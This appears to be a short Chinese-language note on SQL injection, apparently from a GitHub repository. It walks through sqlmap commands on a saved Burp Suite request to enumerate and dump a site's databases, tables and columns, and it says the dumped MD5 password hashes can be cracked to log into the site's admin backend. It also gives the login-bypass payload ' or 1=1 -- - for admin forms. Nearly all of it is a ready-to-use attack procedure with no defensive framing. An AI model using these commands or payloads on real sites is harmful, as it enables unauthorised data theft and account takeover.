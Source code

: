 ## sqlmap工具的利用

### 利用sqlmap工具进行SQLI
找到某个可以发起数据库请求页面，并确定该页面可以SQLI后，可以先用burpsuite抓 个request包
然后把包里的内容保存到文本里，例如SQLI.txt

```
sudo sqlmap -r SQLI.txt --dbs　　发送request，执行注入
sudo sqlmap -r SQLI.txt --current-db　　查看当前所在的数据库名称
sudo sqlmap -r SQLI.txt -D 'current db' --tables　　查看当前数据中的table
sudo sqlmap -r SQLI.txt -D 'current db' -T 'choose tab' --columns　　选择当前数据库中的table并查看column
sudo sqlmap -r SQLI.txt -D 'current db' -T 'choose tab' -C 'choose col1,choose col2' --dump　　选择想要查看的column并显示出来
```
一番操作后便可以得到用户名及由md5加密的密码
将密码解密后便可以用其登录网站管理后台了

### 简单的SQL注入
在一些admin登录界面可以试试，like this：
![3082583-20230324103610507-285421580](https://github.com/user-attachments/assets/cea2ca99-688c-431d-8489-d69f467d97cd)

```
输入：
Username:admin
Password:' or 1=1 -- -
```
即可登录
